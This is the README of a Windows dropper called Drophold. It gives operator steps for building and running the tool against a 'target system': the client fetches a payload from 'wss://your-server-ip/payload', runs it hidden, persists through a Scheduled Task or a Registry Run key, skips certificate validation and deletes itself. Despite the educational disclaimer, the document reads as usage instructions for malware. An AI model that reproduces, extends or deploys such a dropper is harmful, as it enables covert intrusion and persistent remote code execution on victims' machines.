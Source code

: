 # Drophold
Drophold is a foothold dispatcher and dropper for deploying and executing payloads on Windows systems. It establishes persistence, downloads payloads over a **WebSocket SSL** connection, and executes them stealthily.

## Features

- **Stealthy WebSocket SSL Payload Delivery**: Uses **WebSocket over SSL (wss://)** for secure payload retrieval.
    
- **Dynamic Drop Location**:
    
    - **Administrator Mode** → Drops in `C:\ProgramData\`.
        
    - **Standard User Mode** → Drops in `%LOCALAPPDATA%`.
        
- **Hidden Execution**: Runs the downloaded payload as a hidden process.
    
- **Persistence Mechanisms**:
    
    - **Administrator Mode** → Creates a **Scheduled Task** for execution on startup.
        
    - **Standard User Mode** → Adds a Windows **Registry Run key** for persistence.
        
- **Self-Destruction**: Deletes itself after execution.
    
- **Server Restriction**: The WebSocket server serves the payload **only** if the connection is made to `/payload`.
    

## Usage

### 1. Server Setup

1. Modify the server (`drophold-server.py`) to specify the payload file:
    
    PAYLOAD_PATH = "payload.exe"
    
2. Generate an SSL certificate (self-signed or trusted CA) and place `server.crt` and `server.key` in the server directory.
    
3. Start the WebSocket server:
    
    python drophold-server.py
    

### 2. Client (Drophold) Setup

1. Modify `Drophold.cs` to point to your WebSocket server:
    
    await DownloadFile("wss://your-server-ip/payload", exePath);
    
2. Compile the C# program using:
    
    csc /target:exe /out:Drophold.exe Drophold.cs
    
3. Execute `Drophold.exe` on the target system.
    

## Notes

- Ensure the WebSocket server is reachable from the target machine.
    
- The dropper operates silently without displaying any output.
    
- If using a self-signed SSL certificate, the client is configured to bypass validation.
    

## Disclaimer

**This project is for educational and research purposes only. Unauthorized use on systems without permission is illegal. Use responsibly.**

